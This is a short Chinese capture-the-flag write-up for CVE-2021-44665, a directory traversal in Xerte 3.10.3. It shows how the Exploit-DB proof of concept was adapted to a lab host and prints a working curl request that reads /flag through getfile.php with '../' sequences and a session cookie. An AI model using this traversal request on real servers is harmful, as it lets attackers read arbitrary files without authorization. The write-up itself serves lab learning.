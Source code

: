 # CVE-2021-44665

:::info

Tags

- Xerte 目录遍历

官方数据库记录

> 通过 download.php 下载项目文件时，Xerte 项目 Xerte 至 3.10.3 中存在目录遍历漏洞。

:::

在 `Exploit-db` 数据库中进行搜索，找到 [Xerte 3.10.3 - Directory Traversal (Authenticated) - PHP webapps Exploit](https://www.exploit-db.com/exploits/50794)

数据库提供的 poc 指向的 url 地址为 `127.0.0.1` 本地地址，需要在文件中将地址修改为远程服务的地址，并将 `file_to_grab` 修改为需要读取的文件

```shell
┌──(randark㉿kali)-[~/pocs]
└─$ head -n 22 CVE-2021-44665.py | tail -n 3
xerte_base_url = "http://eci-2zedon74gj2loggtdut9.cloudeci1.ichunqiu.com"
file_to_grab = "/../../../../../flag"
php_session_id = "" # If guest is not enabled, and you have a session ID. Put it here.

┌──(randark㉿kali)-[~/pocs]
└─$ python3 CVE-2021-44665.py
flag{5254580b-6f2b-4b5c-865d-cb5202cd7c75}
|-- Used Variables: --|
PHP Session ID: 6q3sbketsjv9d7g6vv4jsm54k0
user direcotry: 4-guest2-Nottingham
Curl example:
curl --cookie "PHPSESSID=6q3sbketsjv9d7g6vv4jsm54k0" http://eci-2zedon74gj2loggtdut9.cloudeci1.ichunqiu.com/getfile.php?file=4-guest2-Nottingham/../../../../../flag
```
